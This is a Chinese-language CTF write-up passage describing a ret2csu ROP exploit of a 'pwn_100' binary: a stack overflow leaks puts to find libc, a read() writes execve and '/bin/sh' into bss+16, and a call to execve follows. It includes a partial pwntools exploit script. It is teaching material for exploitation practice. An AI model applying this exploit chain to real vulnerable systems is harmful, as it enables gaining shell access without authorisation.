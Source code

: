 具体实现：

利用栈溢出覆盖栈中原本的返回地址为*cus\_addr\_end*，将我们需要的寄存器参数（*puts\_got\_addr*）写入，再将返回地址覆盖为*cus\_addr\_front*，这样就可以执行puts函数泄露puts函数的地址，注意执行完*cus\_addr\_front*后还会接下去执行*cus\_addr\_end*处的pop，所以需要填充8  *7 = 56 byte的数据，最后再将返回地址覆盖为*main\_addr\*，因为我们之后还得再利用栈溢出漏洞，还得注意将payload填充至200 byte（输入函数有要求）

**注意这里输入数据用的是send()而不是sendline，因为输入函数是read()而不是gets()**

接下来接收打印在屏幕上的puts地址，再与libc中puts偏移地址相减获得libc基址——*libc\_base*，之后就可以轻松获取execve函数的地址。

#### 2.利用read函数将字符串写入bss段

具体实现：

类似第一步的操作，将r12寄存器的值设置为read函数got表地址——*read\_got\_addr*、将其参数设置为bss段偏移为16的地址——*bss\_base\_16*，执行read()

你可能会好奇为什么不直接用bss段的起始地址而是用bss段偏移为16的地址？

**注意这里有一个坑，调试了好几遍才发现**

![image-20211006214322596](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-144442b4e5cc4b735bc92944b82ff9d63d350ea5.png)

**main函数的开始从*cs:stdin*和*cs:stdout*里取值赋给寄存器，作为setbuf函数的参数，并且bss段首存在stdin，stdout 结构体指针，如果在bss段首写入数据将这两个结构体指针覆盖了，程序运行到call\_setbuf函数会报错，然后终止，所以要避开这两个结构体指针，从*bss\_base\_16*写入execve地址——*sys\_addr***

最后利用send()将“/bin/sh"写入*bss\_base\_16* + 8处。

#### 3.再次利用通用ROP执行execve

具体实现：

类似第一步的操作，将r12寄存器的值设置为*bss\_base\_16*、将其参数设置*bss\_base\_16* + 8,执行execv("/bin/sh")。

#### Exp：

```python
from pwn import *
#context.log_level = 'debug'
p = process("./pwn_100")
e = ELF("./pwn_100")

main_addr = 0x4006b8
cus_addr_end = 0x40075a
cus_addr_front = 0x400740
puts_plt_addr = e.plt["puts"]
puts_got_addr = e.got["puts"]
read_got_addr = e.got["read"]
bss_base_16 = e.bss() + 16

print("bss+16:" + hex(bss_base_16))
off = 0x40 + 8

##get puts_got_addr
payload1 = off * 'a' + p64(cus_addr_end) + p64(0) + p64(1) + p64(puts_got_addr) + p64(0) + p64(0) + p64(puts_got_addr) + p64(cus_addr_front) + 56 * 'a' + p64(main_addr)
payload1 = payload1.ljust(200, "B")
#gdb.attach(p,"b *0x4006AC")

p.send(payload1)
p.recvuntil("bye~\n")
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,"\x00"))
print("puts_addr:" + hex(puts_addr))

#get sys_addr
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc_base = puts_addr - libc.symbols["puts"]
sys_addr = libc_base + libc.symbols["execve"]
print("sys_addr:" + hex(sys_addr))

```